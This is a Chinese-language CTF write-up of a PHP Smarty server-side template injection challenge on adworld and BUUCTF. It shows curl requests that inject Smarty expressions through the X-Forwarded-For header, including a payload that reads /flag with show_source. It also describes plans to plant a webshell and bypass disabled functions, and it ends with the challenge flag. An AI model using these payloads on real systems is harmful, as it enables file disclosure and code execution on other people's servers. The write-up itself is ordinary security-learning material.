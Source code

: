 # smarty

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=83dd3049-5c04-4626-8c08-ffc9ad541136_2&task_category_id=3)

php的模板注入哦！

进入网站，功能是告诉你自己的ip地址。嗯，有用，但不是很有用。网站最下面有一行字。

- Build With Smarty !

[smarty](https://www.anquanke.com/post/id/272393)也是一个模板，肯定也有ssti。与python的flask不同，在smarty内注入需要使用{表达式}。思考一下，网站是怎么知道我的ip地址的？无非是xff或者client ip。本来想用bp测试xff字段的，但是不懂为啥我的bp每次发xff就卡，怎么都发不出去，于是我直接用curl了。

```bash
curl 'http://61.147.171.105:56563/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Cookie: commodity_id="2|1:0|10:1665805936|12:commodity_id|8:MTYyNA==|c04ee4a0fa0405f64ea936c9ec533c2e8964b8229210c62ce771debf354e262e"' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36' \
  -H 'X-Forwarded-For:{1+1}' \
  --compressed
```

发现服务器返回的ip变为了2。ssti稳了。然而真正的难题现在才开始。这题常用的注入方法一个都用不了，因为在查看phpinfo时，一堆函数都被禁用了，能用的目录也只有/var/www/html.虽然可以用file_put_contents写入小马，但是函数被禁用了，这个小马没法用啊。

看大佬的[wp](https://blog.csdn.net/weixin_44604541/article/details/109123323)，也跟我遇到了一样的问题。不过大佬查到了另一个大佬的解法：[无需sendmail：巧用LD_PRELOAD突破disable_fun](https://www.freebuf.com/articles/web/192052.html)。所以现在我们要做的就很简单了，先用file_put_contents往/var/www/html下写一个小马。

结果我发现用curl发不了，bp发不出去，？？？这题没法做了。可以看前面大佬的wp，不过注意他有一个小地方也就是传马那一块给错代码了，注意改一下哈。

几个月后又再buuctf上看见了这道题:[[CISCN2019 华东南赛区]Web11](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web11)。但是人家的题就简单很多了，直接最简单的模板注入就搞定。

```
curl 'http://node4.buuoj.cn:27770/' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36' \
-H 'X-Forwarded-For:{if show_source("/flag")}{/if}' \
  --compressed \
  --insecure
```

后面不甘心去攻防世界再试了一下，curl倒是发出去了，可是蚁剑死活连接不上。唉，给出buu的flag。

## Flag
- flag{a5649845-770f-4019-b57b-2dba670c4a5d}